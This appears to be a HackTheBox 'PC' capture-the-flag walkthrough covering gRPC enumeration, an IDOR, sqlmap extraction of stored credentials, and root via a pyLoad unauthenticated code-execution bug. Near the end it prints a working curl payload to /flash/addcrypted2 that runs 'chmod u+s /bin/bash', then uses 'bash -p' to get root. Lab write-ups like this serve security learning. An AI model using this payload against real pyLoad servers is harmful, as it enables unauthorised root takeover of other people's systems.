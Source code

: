 ```yaml
---
title: PC
date: 2023-08-22 15:53:16 +0800
categories: [Hackthebox, PC]
tags: [htb, ctf, pentesting, web, unix, prev-esc]
---
```



![](../../assets/global/banner.png)


### Description:

This machine is so intresting because you have to deal with grpc protbuf to get the application working so then you can feed your burp history to find an argument that is exploitable

### Difficulty:

`easy`


## Enumeration

**nmap** scan 
```shell
PORT      STATE    SERVICE VERSION
22/tcp    open ssh
50051/tcp open  unknown # After searching found that this port is for gRPC protbuf
```
### enum gRPC using **grpcurl**

```shell
└─$ grpcurl -plaintext pc.htb:50051 list
SimpleApp
grpc.reflection.v1alpha.ServerReflection
```
#### now it's time to connect to this api using **grpcui** this tool will simulate the front end for the api so that we can intract with the application

```shell
└─$ grpcui -plaintext pc.htb:50051                
gRPC Web UI available at http://127.0.0.1:42419/         
```
#### and now we have this great ui to intract with

<img src="../../assets/pc/1.png">

## Foothold

### we have three indpoints *regester*, *login* and *getInfo*

#### lets's create a new account using regester endpoint

<img src="../../assets/pc/2.png">

#### now that we created our account with username called *haitkadir* let's login and se what we get

<img src="../../assets/pc/3.jpg">

#### once we loged in we got two things *id* and *token*, now let's navigate to *getInfo* endpoint and pass the *id* and *token*

#### request
<img src="../../assets/pc/4.jpg">

#### response

<img src="../../assets/pc/5.png">

#### here we got this message from which is the user info :*Will update soon*

#### now let's update the *id* to see if it's vulnerable to an *IDOR* 

#### request
<img src="../../assets/pc/6.png">

#### response
<img src="../../assets/pc/7.png">

#### and yeah it's vulnerable and we got some info from admin account but only what we can get with this one is is this message.

#### but now we know one thing that could be usefull the application uses the *id* variable,

#### so let's intercept the request using **burp** and copy it to a file

<img src="../../assets/pc/8.png">

### now I have the request saved in a file let's run the **sqlmap** against it

```shell
└─$ sqlmap -r request.txt ip id --dump
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.7.8#stable}
|_ -| . [(]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

.
.

[1 entry]
+----+----------------------------------------------+----------+
| id | message                                      | username |
+----+----------------------------------------------+----------+
| 1  | The admin is working hard to fix the issues. | admin    |
+----+----------------------------------------------+----------+

[12:12:51] [INFO] table 'SQLite_masterdb.messages' dumped to CSV file '/home/haitkadir/.local/share/sqlmap/output/127.0.0.1/dump/SQLite_masterdb/messages.csv'
[12:12:51] [INFO] fetching columns for table 'accounts' 
[12:12:51] [INFO] fetching entries for table 'accounts'
Database: <current>
Table: accounts
[2 entries]
+------------------------+----------+
| password               | username |
+------------------------+----------+
| admin                  | admin    |
| <password here>        | sau      |
+------------------------+----------+

```


## Lateral Movement

### now that we have cridintials for sau user let's ssh to the box

```shell
└─$ ssh sau@pc.htb                    
sau@pc.htb's password: 
Last login: Wed Aug 23 13:33:20 2023 from 10.10.14.212
sau@pc:~$ 
```

## Privilege Escalation

### enum

```shell
sau@pc:~$ ps -ef | grep root
[..]
[..]
root        1066       1  0 04:17 ?        00:00:27 /usr/bin/python3 /usr/local/bin/pyload
```
#### checking which port is binded to this service 

```shell
sau@pc:~$ ss -lntp
State        Recv-Q       Send-Q              Local Address:Port                Peer Address:Port       Process       
[..]
LISTEN       0            128                       0.0.0.0:9666                     0.0.0.
[..]
```
#### as we can see here it's running on port 9666 


#### in this procces we can see that the root running the *pyload* which is a download manager,

#### and it's vulnerable to unauthinticate remote code execution

### Exploit

```shell
sau@pc:~$ cat exp.sh 
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"chmod%20u%2bs%20/bin/bash\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://localhost:9666/flash/addcrypted2'

# this \"chmod%20u%2bs%20/bin/bash\"  is equal to this ==> "chmod u+s /bin/bash"
```


```shell
sau@pc:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash

sau@pc:~$ ./exp.sh 
HTTP/1.1 500 INTERNAL SERVER ERROR
Content-Type: text/html; charset=utf-8
Content-Length: 21
Access-Control-Max-Age: 1800
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: OPTIONS, GET, POST
Vary: Accept-Encoding
Date: Wed, 23 Aug 2023 17:03:33 GMT
Server: Cheroot/8.6.0
 
sau@pc:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```
#### now that we set the *SUID* bit for **bash** let's get root

```shell
sau@pc:~$ id
uid=1001(sau) gid=1001(sau) groups=1001(sau)
sau@pc:~$ /bin/bash -p
bash-5.0# id
uid=1001(sau) gid=1001(sau) euid=0(root) groups=1001(sau)
bash-5.0# 
```

# Thanks for reading
